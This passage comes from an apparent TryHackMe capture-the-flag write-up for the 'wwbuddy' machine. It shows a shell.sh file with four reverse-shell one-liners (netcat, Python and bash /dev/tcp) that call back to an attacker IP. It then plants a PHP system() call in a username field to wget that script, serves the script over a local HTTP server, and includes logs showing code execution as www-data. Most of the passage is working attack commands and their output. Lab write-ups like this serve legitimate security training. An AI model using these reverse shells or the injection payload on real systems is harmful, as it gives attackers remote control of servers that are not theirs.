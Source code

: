 ## Reverse shell as www-data
### Content of shell.sh
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/10.6.31.213/9001 0>&1
```
### Opening up an HTTP Server
```console
local@local:~/Documents/tryhackme/wwbuddy$ sudo python3 -m http.server 80
[sudo] password for local: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
### Changing the username 
Username Used `<?php system('wget 10.6.31.213/shell.sh') ?>`
![20](/assets/images/thm/wwbuddy/20.png)

### Accessing /admin from low priv user for triggering
```console
local@local:~/Documents/tryhackme/wwbuddy$ curl -H 'Cookie: PHPSESSID=be5injo6o0mbgsfssejddqq8d8' http://10.10.39.232/admin/
You dont have permissions to access this file, this incident will be reported.
```
### Accessing /admin from admin's account
```console
local@local:~/Documents/tryhackme/wwbuddy$ curl -H 'Cookie: PHPSESSID=40msliho8kqgvm0tlcci4kcqi0' http://10.10.39.232/admin/
.....
.....
10.6.31.213   2020-11-08 11:35:16   uid=33(www-data) gid=33(www-data) groups=33(www-data)
 75f1edc5388e8a88a232fd0a0432173f <br>
10.6.31.213   2020-11-08 11:43:51    75f1edc5388e8a88a232fd0a0432173f <br>
```
And looking at the webserver, we got a hit.
```console
local@local:~/Documents/tryhackme/wwbuddy$ sudo python3 -m http.server 80
[sudo] password for local: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.39.232 - - [08/Nov/2020 17:29:23] "GET /shell.sh HTTP/1.1" 200 -
```
